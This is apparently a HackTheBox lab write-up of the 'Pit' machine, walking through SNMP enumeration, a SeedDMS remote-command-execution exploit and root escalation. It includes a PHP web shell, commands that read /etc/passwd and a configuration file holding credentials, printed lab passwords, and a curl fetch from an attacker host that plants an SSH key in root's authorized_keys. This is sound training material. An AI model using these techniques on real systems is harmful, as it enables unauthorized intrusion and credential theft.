






# Pit - HackTheBox - Writeup
Linux, 30 Base Points, Medium

## Machine


## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22```, ```80``` and ```9090```.

***User***: Using ```nmap``` UDP port scanning we found another two ports ```161``` and ```500```, On the following [Twitter post](https://twitter.com/hackthebox_eu/status/1392494135421120516) related to this machine we found a hint about ```snmapwalk``` use, Using ```snmpwalk``` we found another website portal on port ```80``` and username ```michelle```, Found the portal credentials to SeedDMS 5.1.15 system, And by using [SeedDMS versions < 5.1.11 - Remote Command Execution](https://www.exploit-db.com/exploits/47022) we get the user flag.

***Root***: From ```snmpwalk``` we found script ```/usr/bin/monitor```, The script running script located on ```/usr/local/monitoring/``` directory, By creating a script which adds our ```SSH``` private key to root ```authorized_keys``` we get the root flag.


## Pit Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ nmap -sC -sV -oA nmap/Pit 10.10.10.241
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-17 23:46 IDT
Nmap scan report for 10.10.10.241
Host is up (0.082s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     Cross-Origin-Resource-Policy: same-origin
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|_    margin: 0 0 10p
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2020-04-16T23:29:12
|_Not valid after:  2030-06-04T16:09:12
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9090-TCP:V=7.80%T=SSL%I=7%D=6/17%Time=60CBB4DB%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,E70,"HTTP/1\.1\x20400\x20Bad\x20request\r\nContent-Type:
SF:\x20text/html;\x20charset=utf8\r\nTransfer-Encoding:\x20chunked\r\nX-DN
SF:S-Prefetch-Control:\x20off\r\nReferrer-Policy:\x20no-referrer\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nCross-Origin-Resource-Policy:\x20same-o
SF:rigin\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x20\x20
SF:<title>\r\nb\r\nBad\x20request\r\nd08\r\n</title>\n\x20\x20\x20\x20<met
SF:a\x20http-equiv=\"Content-Type\"\x20content=\"text/html;\x20charset=utf
SF:-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<style>\n\tbody\x
SF:20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20\"RedHatDi
SF:splay\",\x20\"Open\x20Sans\",\x20Helvetica,\x20Arial,\x20sans-serif;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-size:\x2012px;\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20line-height:\x201\.6666666
SF:7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#333333;\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#
SF:f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20border:\
SF:x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20vertical-align:\
SF:x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-w
SF:eight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20mar
SF:gin:\x200\x200\x2010p")%r(HTTPOptions,E70,"HTTP/1\.1\x20400\x20Bad\x20r
SF:equest\r\nContent-Type:\x20text/html;\x20charset=utf8\r\nTransfer-Encod
SF:ing:\x20chunked\r\nX-DNS-Prefetch-Control:\x20off\r\nReferrer-Policy:\x
SF:20no-referrer\r\nX-Content-Type-Options:\x20nosniff\r\nCross-Origin-Res
SF:ource-Policy:\x20same-origin\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>\n<
SF:head>\n\x20\x20\x20\x20<title>\r\nb\r\nBad\x20request\r\nd08\r\n</title
SF:>\n\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\"te
SF:xt/html;\x20charset=utf-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\
SF:"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x
SF:20\x20<style>\n\tbody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20fon
SF:t-family:\x20\"RedHatDisplay\",\x20\"Open\x20Sans\",\x20Helvetica,\x20A
SF:rial,\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20f
SF:ont-size:\x2012px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20lin
SF:e-height:\x201\.66666667;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20color:\x20#333333;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0background-color:\x20#f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20border:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20vertical-align:\x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20font-weight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20margin:\x200\x200\x2010p");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.52 seconds

```

Let's browse ports ```9090``` and ```80``` (add ```dms-pit.htb```, ```pit.htb``` domains to ```/etc/hosts```).

Port ```80``` [http://10.10.10.241/](http://10.10.10.241/) contains the following web site:


Port ```9090``` [https://dms-pit.htb:9090/](https://dms-pit.htb:9090/) contains:


Nothing juicy on both websites.

Let's try to scan UDP ports:
```console
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ sudo nmap -sU -F 10.10.10.241
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-18 17:03 IDT
Nmap scan report for dms-pit.htb (10.10.10.241)
Host is up (0.082s latency).
Not shown: 98 open|filtered ports
PORT    STATE    SERVICE
161/udp open     snmp
500/udp filtered isakmp

Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds

```

We found another port ```161``` which is ```snmp``` service behind.

By looking at [Twitter post](https://twitter.com/hackthebox_eu/status/1392494135421120516) related to this machine we can get A hint for the next step:


Follow the hint, Let's  use [snmpwalk](https://linux.die.net/man/1/snmpwalk):
```console
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ snmpwalk -v 1 -c public 10.10.10.241 .1 > walk.out
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ cat walk.out
...
guest_u         user       s0         s0                             guest_r
root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
user_u          user       s0         s0                             user_r
xguest_u        user       s0         s0                             xguest_r
login

Login Name           SELinux User         MLS/MCS Range        Service

__default__          unconfined_u         s0-s0:c0.c1023       *
michelle             user_u               s0                   *
root                 unconfined_u         s0-s0:c0.c1023       *
System uptime
 10:30:57 up 17:41,  0 users,  load average: 0.00, 0.00, 0.00"
iso.3.6.1.4.1.8072.1.3.2.3.1.3.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 31
iso.3.6.1.4.1.8072.1.3.2.3.1.4.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 0
iso.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.1 = STRING: "Memory usage"
...
iso.3.6.1.4.1.2021.9.1.1.1 = INTEGER: 1
iso.3.6.1.4.1.2021.9.1.1.2 = INTEGER: 2
iso.3.6.1.4.1.2021.9.1.2.1 = STRING: "/"
iso.3.6.1.4.1.2021.9.1.2.2 = STRING: "/var/www/html/seeddms51x/seeddms"
iso.3.6.1.4.1.2021.9.1.3.1 = STRING: "/dev/mapper/cl-root"
iso.3.6.1.4.1.2021.9.1.3.2 = STRING: "/dev/mapper/cl-seeddms"
iso.3.6.1.4.1.2021.9.1.4.1 = INTEGER: 10000
iso.3.6.1.4.1.2021.9.1.4.2 = INTEGER: 100000
....
```

As we can see, we get username ```michelle```, And also another webpage that is located on ```/var/www/html/seeddms51x/seeddms```.

Let's try to observe the URL: [http://dms-pit.htb/seeddms51x/seeddms](http://dms-pit.htb/seeddms51x/seeddms):


After few tries, found the following credentials ```michelle:michelle``` work, We can access the dashboard:


We can see the Administrator notes:
>Dear colleagues, Because of security issues in the previously installed version (5.1.10), I upgraded SeedDMS to version 5.1.15. See the attached CH...

According to the admin notes -  we are dealing with SeedDMS 5.1.15 which we can found the following RCE [https://www.exploit-db.com/exploits/47022](https://www.exploit-db.com/exploits/47022).

First, Let's browse this link to add a new document [http://dms-pit.htb/seeddms51x/seeddms/out/out.AddDocument.php?folderid=8&showtree=1](http://dms-pit.htb/seeddms51x/seeddms/out/out.AddDocument.php?folderid=8&showtree=1):



```pshell.php``` file contains the follow:
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```


Next, We can get the document id by clicking on the document link and hover on the Download button:


Now, We can get RCE by browsing the following link [http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=cat+/etc/passwd](http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=cat+/etc/passwd):


By accessing to [view-source:http://dms-pit.htb/seeddms51x/data/1048576/33/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml](view-source:http://dms-pit.htb/seeddms51x/data/1048576/33/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml)

We can get the following credentials:


So we can access port 9090 [https://dms-pit.htb:9090/](https://dms-pit.htb:9090/) with the following creds: ```michelle:ied^ieY6xoquu``` and we get the following:


By clicking on Terminal we can get the user flag:


And we get the user flag ```e1020e71e1b0da2c33c36d460b8f3f89```.


### Root

```snmpwalk``` give us also the following information:
```console
iso.3.6.1.4.1.2021.9.1.16.1 = Gauge32: 0
iso.3.6.1.4.1.2021.9.1.16.2 = Gauge32: 0
iso.3.6.1.4.1.2021.9.1.100.1 = INTEGER: 0
iso.3.6.1.4.1.2021.9.1.100.2 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.1.0 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
iso.3.6.1.4.1.8072.1.3.2.2.1.3.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.4.10.109.111.110.105.116.111.114.105.110.103 = ""
iso.3.6.1.4.1.8072.1.3.2.2.1.5.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 5
iso.3.6.1.4.1.8072.1.3.2.2.1.6.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
iso.3.6.1.4.1.8072.1.3.2.2.1.7.10.109.111.110.105.116.111.114.105.110.103 = INTEGER: 1
```

Let's try to observe this file ```/usr/bin/monitor```:
```bash
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

Let's create script called ```check_me.sh``` which contains:
```bash
#!/bin/bash

echo "ssh-rsa <SSH_PUBLIC_KEY> evyatar@parrot" > /root/.ssh/authorized_keys
```

The script adds our public key to ```root``` authorized_keys.

Let's upload this script to ```/usr/local/monitoring/``` using ```curl```:
```console
[michelle@pit monitoring]$ pwd
/usr/local/monitoring
[michelle@pit monitoring]$ curl http://10.10.14.14:8000/check_me.sh -o check_me.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601  100   601    0     0   3756      0 --:--:-- --:--:-- --:--:--  3756
[michelle@pit monitoring]$ 
```

Now, Let's run again ```snmpwalk``` command: ```snmpwalk -v 1 -c public 10.10.10.241 .1``` to execute the script above.

When It's done we can make ```SSH``` login as root using our ```SSH``` private key:
```console
┌─[evyatar@parrot]─[/hackthebox/Pit]
└──╼ $ ssh -i id_rsa root@10.10.10.241
Web console: https://pit.htb:9090/

Last login: Mon May 10 11:42:46 2021
[root@pit ~]# whoami
root
[root@pit ~]# cat root.txt
0730dc58aa29524e312f7983c0316f1d
[root@pit ~]# 

```

And we get the root flag ```0730dc58aa29524e312f7983c0316f1d```.
